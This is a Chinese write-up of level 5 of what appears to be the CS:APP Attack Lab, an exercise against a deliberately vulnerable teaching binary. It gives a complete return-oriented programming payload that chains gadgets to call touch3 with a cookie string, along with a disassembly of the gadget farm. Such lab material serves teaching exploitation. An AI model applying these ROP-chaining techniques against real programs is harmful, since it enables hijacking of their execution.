 ### level5实战

首先获取farm，存储在附录中。解决方案同level
```c
1. movq %rsp, %rax    // 48 89 e0   0x401b62  注意之后每一个都有个返回
2. movq %rax, %rdi    // 48 89 c7   0x401a75
3. 在缓冲区存放string偏移量，并popq %rax    // 58   0x401a9b
4. movl %eax, %edx    // 89 c2    0x401af0  注意到这后面还有一个92指令，不过不影响
5. movl %edx, %ecx    // 89 d1    0x401b68  注意到这里后面还有一个38 db的指令才到c3，不过不会对我们造成影响
6. movl %ecx, %esi    // 89 ce    0x401b7e
7. lea (%rdi, %rsi, 1), %rax      // 48 8d 04 37    0x401aa6
8. movq %rax,%rdi     // 48 89 c7   0x401a75
```
获取到touch3：0x4019c9
cookie的asc2表示：35 35 64 61 66 34 36 39
所以生成结果：
```c
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
62 1b 40 00 00 00 00 00     // 进入0x401b62执行movq %rsp, %rax，之后返回在下一条指令
75 1a 40 00 00 00 00 00     // 进入0x401a75执行movq %rax, %rdi，**初始rsp也在这里**
9b 1a 40 00 00 00 00 00     // 进入0x401a9b执行popq %rax，弹出我们的string偏移量后再返回
48 00 00 00 00 00 00 00     // 我们的string偏移量，注意我们存rsp的位置（此处+0x10）
f0 1a 40 00 00 00 00 00     // 进入0x401af0执行movl %eax, %edx，之后返回
68 1b 40 00 00 00 00 00     // 进入0x401b68执行movl %edx, %ecx，之后返回（此处+0x20）
7e 1b 40 00 00 00 00 00     // 进入0x401b7e执行movl %ecx, %esi，之后返回
a6 1a 40 00 00 00 00 00     // 进入0x401aa6执行lea (%rdi, %rsi, 1), %rax，之后返回（此处+0x30）
75 1a 40 00 00 00 00 00     // 进入0x401a75执行movq %rax,%rdi，之后返回+0x8
c9 19 40 00 00 00 00 00     // 进入0x4019c9执行touch3 注意这里不是callq所以没有压栈，此时（此处+0x40）
35 35 64 61 66 34 36 39     // 我们的string（此处+0x48，所以得到偏移量为48）
```

### 附录：实战farm

```c
0000000000401a66 <start_farm>:
  401a66:       b8 01 00 00 00          mov    $0x1,%eax
  401a6b:       c3                      retq
0000000000401a6c <setval_296>:
  401a6c:       c7 07 58 90 c3 44       movl   $0x44c39058,(%rdi)
  401a72:       c3                      retq
0000000000401a73 <addval_429>:
  401a73:       8d 87 48 89 c7 c3       lea    -0x3c3876b8(%rdi),%eax
  401a79:       c3                      retq
0000000000401a7a <setval_320>:
  401a7a:       c7 07 48 99 c7 c3       movl   $0xc3c79948,(%rdi)
  401a80:       c3                      retq
0000000000401a81 <getval_237>:
  401a81:       b8 48 89 c7 94          mov    $0x94c78948,%eax
  401a86:       c3                      retq
0000000000401a87 <setval_497>:
  401a87:       c7 07 d1 48 90 c3       movl   $0xc39048d1,(%rdi)
  401a8d:       c3                      retq
0000000000401a8e <getval_333>:
  401a8e:       b8 68 48 89 c7          mov    $0xc7894868,%eax
  401a93:       c3                      retq
0000000000401a94 <getval_321>:
  401a94:       b8 e2 12 18 90          mov    $0x901812e2,%eax
  401a99:       c3                      retq
```